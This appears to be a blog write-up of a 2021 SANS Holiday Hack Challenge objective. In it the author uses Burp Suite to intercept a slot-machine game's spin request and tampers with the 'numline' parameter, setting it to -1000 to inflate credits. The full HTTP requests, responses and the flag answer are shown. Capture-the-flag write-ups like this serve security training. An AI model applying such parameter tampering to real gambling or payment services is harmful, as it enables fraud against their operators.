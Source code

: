 ```yaml
---
title:  "Objective 4: Slot Machine Investigation - 2021 SANS Holiday Hack Challenge"
date:   "2022-01-05 00:04:00 -0800"
categories: HolidayHack2021
header:
 teaser: /assets/images/HolidayHack2021/slots.png
---
```


In this challenge, we're going to do a bit of web app pen testing on a virtual slot machine site.

[Play the 2021 SANS Holiday Hack Challenge](https://2021.kringlecon.com/invite)

## Objective
>Test the security of Jack Frost's [slot machines](https://slots.jackfrosttower.com/). What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element.

This uses an external site, https://slots.jackfrosttower.com.

## Hint
- It seems they're susceptible to [parameter tampering](https://owasp.org/www-community/attacks/Web_Parameter_Tampering).

## Enumeration
Going to https://slots.jackfrosttower.com and hitting "Play Game" brings us to a page for "Frosty Slots". Once you hit the Play Game button and then the Play button it brings you to a page with the slots on screen. There are a few parameters you can play with and then you can hit the Spin button to roll the slots.

![Slots screen](/assets/images/HolidayHack2021/slots.png)

I have [Burp Suite](https://portswigger.net/burp) already downloaded and set up, so I fired that up, set up my browser to use Burp as its proxy, and turned the intercept on in the Proxy tab.

When we hit Spin again, Burp catches the POST request. I then sent this to Burp's repeater tab to start messing with it.

**Request:**
```http
POST /api/v1/cda78409-427d-42a1-b454-f6c864c972e4/spin HTTP/2

Host: slots.jackfrosttower.com
Cookie: XSRF-TOKEN=eyJpdiI6InZ0MjdmYTB5NzR0bmhybC9ISkUzVUE9PSIsInZhbHVlIjoidXExMUYvRld4a2xvZ3B2Um5sS2tHTm56R2FFTVlNT3U3S0xlbVdEZllpUjJHRlpweDFWNmY4UWNWZWUybHFhNlluUC9jWEh4dUtnbkdveTBBTEkzVHlGbnpNbzhMQ3k3M1E2Y0NKK0FJS28yT2NydDFvRVZkcjdkcThQMTV4TXQiLCJtYWMiOiIwMDI5MzAyMDg1MjAwNzFhNWI1OWIyNDIxZTcyYjY4NTdkYjg1OGZkMjViYzUyOTdiNTU2YmMyMzVjNDRmYzUyIiwidGFnIjoiIn0%3D; slots_session=eyJpdiI6IkVMelBXSGJzUVR2NlE4QWJzYmNIRnc9PSIsInZhbHVlIjoidjBHbWlxNzlrK3o5QXpHMk9XNDBiS2pLM25XcUpuWWczRTNQT3NFYko3KzYyU3JUN0JhYXVmY1QvREdhTlM2djBpZkYvWmJWSWVidkNlblp4ZmVrbzdqYzdja1MxaWpLWHRUdlJkWGJ2SU5EOExrSjdUblJSUzZrdDcxR0pJWTAiLCJtYWMiOiI0NTQzMjhlMjg4MTNhOGEyNmI2OWVjMDkwODExZjkzNGExZTdhYWE2NGU3YzgwZGNlMWQyYWU4NTk2MmExY2UyIiwidGFnIjoiIn0%3D
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://slots.jackfrosttower.com/uploads/games/frostyslots-861175/index.html
Content-Type: application/x-www-form-urlencoded
X-Ncash-Token: 1874131c-17c6-44f1-971c-5d19c7d1560d
Origin: https://slots.jackfrosttower.com
Content-Length: 37
Te: trailers



betamount=1&numline=20&cpl=0.1
```

**Response:**
```
HTTP/2 200 OK

Date: Tue, 04 Jan 2022 23:44:06 GMT
Date: Tue, 04 Jan 2022 23:44:06 GMT
X-Powered-By: PHP/7.4.26
Cache-Control: no-cache, private
Content-Type: application/json
X-Ratelimit-Limit: 60
X-Ratelimit-Remaining: 59
Access-Control-Allow-Origin: *
Via: 1.1 google
Alt-Svc: clear

{
	"success":true,
	"data":{
		"credit":99.5,
		"jackpot":0,
		"free_spin":0,
		"free_num":0,
		"scaler":0,
		"num_line":20,
		"bet_amount":1,
		"pull":{
			"WinAmount":1.5,
			"FreeSpin":0,
			"WildFixedIcons":[],
			"HasJackpot":false,
			"HasScatter":false,
			"WildColumIcon":"",
			"ScatterPrize":0,
			"SlotIcons":["icon8","icon5","icon4","icon8","icon10","icon3","wild","scatter","icon9","icon7","icon6","icon4","icon6","icon5","icon5"],
			"ActiveIcons":[11,7,13],
			"ActiveLines":[15]
		},
		"response":"Keep playing!"
	},
	"message":"Spin success"
}
```

What was most interesting was the body of the request:
```
betamount=1&numline=20&cpl=0.1
```

## Exploitation

What happens when we try to put unexpected values into these parameters?

After some trial and error, it seems that when we put in negative numbers for the "numline" parameter, the site always increases our credits by one tenth of the abolute value of the numline amount.

Given that, let's just enter "-1000" for the "numline" parameter and hit the send button in Burp Suite a few times to get our credits over 1000.

**Edited post request:**
```http
POST /api/v1/cda78409-427d-42a1-b454-f6c864c972e4/spin HTTP/2

Host: slots.jackfrosttower.com
Cookie: XSRF-TOKEN=eyJpdiI6InZ0MjdmYTB5NzR0bmhybC9ISkUzVUE9PSIsInZhbHVlIjoidXExMUYvRld4a2xvZ3B2Um5sS2tHTm56R2FFTVlNT3U3S0xlbVdEZllpUjJHRlpweDFWNmY4UWNWZWUybHFhNlluUC9jWEh4dUtnbkdveTBBTEkzVHlGbnpNbzhMQ3k3M1E2Y0NKK0FJS28yT2NydDFvRVZkcjdkcThQMTV4TXQiLCJtYWMiOiIwMDI5MzAyMDg1MjAwNzFhNWI1OWIyNDIxZTcyYjY4NTdkYjg1OGZkMjViYzUyOTdiNTU2YmMyMzVjNDRmYzUyIiwidGFnIjoiIn0%3D; slots_session=eyJpdiI6IkVMelBXSGJzUVR2NlE4QWJzYmNIRnc9PSIsInZhbHVlIjoidjBHbWlxNzlrK3o5QXpHMk9XNDBiS2pLM25XcUpuWWczRTNQT3NFYko3KzYyU3JUN0JhYXVmY1QvREdhTlM2djBpZkYvWmJWSWVidkNlblp4ZmVrbzdqYzdja1MxaWpLWHRUdlJkWGJ2SU5EOExrSjdUblJSUzZrdDcxR0pJWTAiLCJtYWMiOiI0NTQzMjhlMjg4MTNhOGEyNmI2OWVjMDkwODExZjkzNGExZTdhYWE2NGU3YzgwZGNlMWQyYWU4NTk2MmExY2UyIiwidGFnIjoiIn0%3D
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://slots.jackfrosttower.com/uploads/games/frostyslots-861175/index.html
Content-Type: application/x-www-form-urlencoded
X-Ncash-Token: 1874131c-17c6-44f1-971c-5d19c7d1560d
Origin: https://slots.jackfrosttower.com
Content-Length: 37
Te: trailers

betamount=1&numline=-1000&cpl=0.1
```


**Server response once we get to 1000 credits:**
```
HTTP/2 200 OK

Date: Fri, 10 Dec 2021 21:16:24 GMT
Date: Fri, 10 Dec 2021 21:16:24 GMT
X-Powered-By: PHP/7.4.26
Cache-Control: no-cache, private
Content-Type: application/json
X-Ratelimit-Limit: 60
X-Ratelimit-Remaining: 59
Access-Control-Allow-Origin: *
Via: 1.1 google
Alt-Svc: clear

{
	"success":true,
	"data:{
		"credit":1000,
		"jackpot":0,
		"free_spin":0,
		"free_num":0,
		"scaler":0,
		"num_line":-1000,
		"bet_amount":1,
		"pull":{
			"WinAmount":0,
			"FreeSpin":0,
			"WildFixedIcons":[],
			"HasJackpot":false,
			"HasScatter":false,
			"WildColumIcon":"",
			"ScatterPrize":0,
			"SlotIcons":[
				"wild",
				"icon2",
				"wild",
				"icon1",
				"icon6",
				"icon1",
				"icon5",
				"wild",
				"wild",
				"icon8",
				"icon7",
				"icon4",
				"icon8",
				"icon10",
				"icon4"
			],
			"ActiveIcons":[],
			"ActiveLines":[]
		},
		"response":"I'm going to have some bouncer trolls bounce you right out of this casino!"
	},
	"message":"Spin success"
}
```

**Answer:** I'm going to have some bouncer trolls bounce you right out of this casino!